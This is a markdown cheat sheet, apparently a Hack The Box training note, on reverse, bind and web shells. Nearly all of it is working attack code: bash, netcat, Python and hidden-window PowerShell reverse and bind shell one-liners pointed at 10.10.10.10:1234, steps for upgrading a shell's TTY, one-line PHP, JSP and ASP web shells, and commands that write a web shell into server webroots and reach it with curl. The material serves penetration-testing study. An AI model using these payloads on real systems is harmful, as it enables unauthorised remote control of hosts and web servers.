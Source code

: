 # Types of Shells

| Type of Shell | Method of Communication |
| --- | --- |
| Reverse Shell | Connects back to our system and gives control through a reverse connection | 
| Bind Shell | Waits for us to connect to it and gives us control once we do |
| Web Shell | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output |

## Reverse Shell

The most common type of shell; quickest and easiest method to obtain control over a compromised host.

* Identify vulnerability that allows remote code execution
* Start a netcat listener on our machine
* Execute a reverse shell command that connects the remote systems shell

### Netcat Listener
```bash
nc -nvlp 1234
```
### Connect Back IP
```bash
ip a
```
### Reverse Shell Command
Command executed depends on the operating system the compromised host runs on.

[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Reliable reverse shell Commands:**
#### bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
#### powershell
```powershell
powershell -NoP -NonI - W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## Bind Shell
Unlike a Reverse Shell, will connect to it on the *target's* listening port.
### Bind Shell Commmand
Can again utilize [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find the proper command.

> Will start the listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere

#### bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
#### python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
#### powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
### Netcat Connection
```bash
nc 10.10.10.1 1234
```
## Upgrading TTY
Map terminal TTY with the remote TTY.

Using the `python/stty` method:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
* Next, background shell with <kbd>Ctrl+Z</kbd>
* Input the following `stty` command:
```bash
www-data@remotehost$ ^Z

Daniel Freeman@htb[/htb]$ stty raw -echo
Daniel Freeman@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```
* Once `fg` is hit, it will bring back our netcat shell.
* Can hit <kbd>enter</kbd> again to get back or input `reset` and hit enter

Shell may not cover the entire terminal. Input the following to get your terminal variables:
```bash
Daniel Freeman@htb[/htb]$ echo $TERM

xterm-256color
```
```bash
Daniel Freeman@htb[/htb]$ stty size

67 318
```
* First command shows us the `TERM` variable.
* Second shows values for `rows` and `columns`
* Proceed back to netcat shell:
```bash
export TERM=xterm-256color
```
```bash
stty rows 67 columns 318
```
## Web Shells
Typically a web script that accepts our command through HTTP request parameters such as GET and POST.
### Writing a Web Shell
Writing a web shell that will take our commands through a GET request, execute it, and print its output back:
#### php
```php
<?php system($_REQUEST["cmd"]); ?>
```
#### jsp
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
#### asp
```asp
<% eval request("cmd") %>
```
### Uploading a Web Shell
Need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. Can be done through a vuln in an upload feature.

If we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web.

#### Common Web Server Default Webroots
| Web Server | Default Webroot |
| --- | --- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

Check these directories to see which webroot is in use then use `echo` to write out our web shell.

Example on Linux host running Apache (PHP):
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
### Accessing Web Shell
Access it through a browser or by using `cURL`.

Visit the shell.php page on the compromised website, and use `?cmd=id` to execute the `id` command.
```html
http://SERVER_IP/shell.php?cmd=id
```
Use `cURL`:
```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

